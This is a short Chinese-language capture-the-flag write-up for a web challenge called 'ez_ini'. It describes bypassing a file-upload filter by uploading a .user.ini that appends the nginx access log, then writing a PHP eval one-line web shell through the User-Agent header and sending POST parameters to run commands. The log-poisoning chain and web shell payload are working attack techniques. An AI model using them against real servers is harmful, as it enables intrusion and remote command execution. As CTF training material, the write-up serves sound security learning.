 ## ez_ini


****

出题人：Jay17



![image-20240413222916775](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413222916775.png)

WP：

前面对文件上传过滤了哪些的测试步骤不做了。目前可上传**.user.ini**，但是过滤了**\<**。

![descript](C:/Users/26272/Pictures/media/87f283c21543098e68a04d297de753b4.png)

包含日志，这里用**auto_append_file=/var/log/nginx/access.log**。

步骤：

1、上传.user.ini配置文件，内容为auto_append_file=/var/log/nginx/access.log （日志文件路径） //自动包含日志文件

2、同目录下php文件中打开hackbar，UA头进行写马如“\<?php eval(\$_POST[1]);?\>”，发送。

3、POST传1=什么什么，进行RCE

![descript](C:/Users/26272/Pictures/media/f203670c85e972b7e75bafeec5092ed6.png)

上传成功后在upload.php处getshell就行了。

UA头写马\<?php eval(\$_POST[1]);?\>

![descript](C:/Users/26272/Pictures/media/9e8de03a48b27e8039736917f669bd2e.png)

POST传参执行命令。

![descript](C:/Users/26272/Pictures/media/a6b95e569b99bd655c45304d8e72b99f.png)







